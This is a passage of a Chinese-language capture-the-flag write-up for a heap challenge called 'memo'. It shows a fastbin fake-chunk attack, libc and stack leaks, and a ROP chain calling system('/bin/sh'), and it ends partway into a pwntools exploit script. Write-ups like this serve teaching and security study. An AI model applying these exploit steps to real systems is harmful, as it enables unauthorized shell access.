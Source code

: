 因為 `malloc` 會檢查 chunk size 是不是符合同一個 fastbin 的 size，所以前面 password 裡面的 `0x30` 就派上用場了，如此一來第二次的 `malloc` 可以通過檢查讓我們可以拿到 `0x602a60`，接著因為這個 chunk data 的開頭是 `size_list` 所以稍微構造一下 input，把 size 從 32 調大，順便擺上某個 function 的 `got.plt`，size 是為了後面疊 ROP 的時候比較方便，`got.plt` 則是拿來 leak libc function，底下是 layout：


```
0x602a40:       0x4141414141414141      0x4141414141414141
0x602a50:       0x4141414141414141      0x0000000000000030
0x602a60:       0x000000f0000000f0      0x00000020000000f0
0x602a70:       0x0000000000601fb0      0x000000000000000a
0x602a80:       0x0000000000000000      0x0000000000602a60
```

* 這邊把假 chunk 放在 index3 這樣可以一次利用到 0~2
* index3 size 因為 leave 最後面的行為會把 `0xf0` 蓋掉改回 `0x20` 不過沒關係後面會進行一次 `edit` 會把他改寫回來


接著就可以利用 `view(0)`，來 leak `0x601fb0` 也就是 `__libc_start_main` 的 libc address，拿到之後，利用一次 `edit` 把 size 改回 `0xf0` 順便把 `0x601fb0` 換成 `environ` 的位置，來 leak stack address(environ 是一個在 libc 裡面的一個 symbol，他裡面存著 stack address 指到 `char** envp`)：

```
0x602a40:       0x4141414141414141      0x4141414141414141
0x602a50:       0x4141414141414141      0x0000000000000030
0x602a60:       0x000000f0000000f0      0x000000f0000000f0
0x602a70:       0x00007fb71186af98      0x000000000000000a
0x602a80:       0x0000000000000000      0x0000000000602a60
```

一樣利用 `view(0)` 來 leak stack address，算一下跟 `main` 的 return address 位置的 offset，之後，再次利用 `edit` 不過這次是要 overwrite `0x602a88` 位置，也就是 index3 message 的位置，把它改成 `main return address` 的位置，這樣再次 `edit` 就可以疊 ROP，疊完就選擇 `Quit` 便會跳到剛剛疊的 ROP 上，這次 ROP 很簡單，從 libc 裡面找一個 gadget `pop_rdi_ret` 然後 sh 字串也是從 libc 裡面找，接著直接跳到 `system`，成功開 shell ！


改成 stack address 的 layout + ROP：

```python
0x602a40:       0x4141414141414141      0x4141414141414141
0x602a50:       0x4141414141414141      0x0000000000000030
0x602a60:       0x000000f0000000f0      0x000000f0000000f0
0x602a70:       0x4141414141414141      0x4141414141414141
0x602a80:       0x4141414141414141      0x00007ffda8984928  # stack address

ROP:
sh = base + next(libc.search('/bin/sh\x00'))
system = base + libc.symbols['system']
pop_rdi =  base + 0x0000000000021102
payload = p64(pop_rdi) + p64(sh) + p64(system)
edit(payload)
```

Final Exploit:

```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

reip = '54.202.7.144'
report = 8888

r = process('./memo-patch')
#r = remote(reip, report)

# Setup name & pw
r.recvuntil("What's user name:")
r.sendline('nae')
r.recvuntil('Do you wanna set password? (y/n)')
```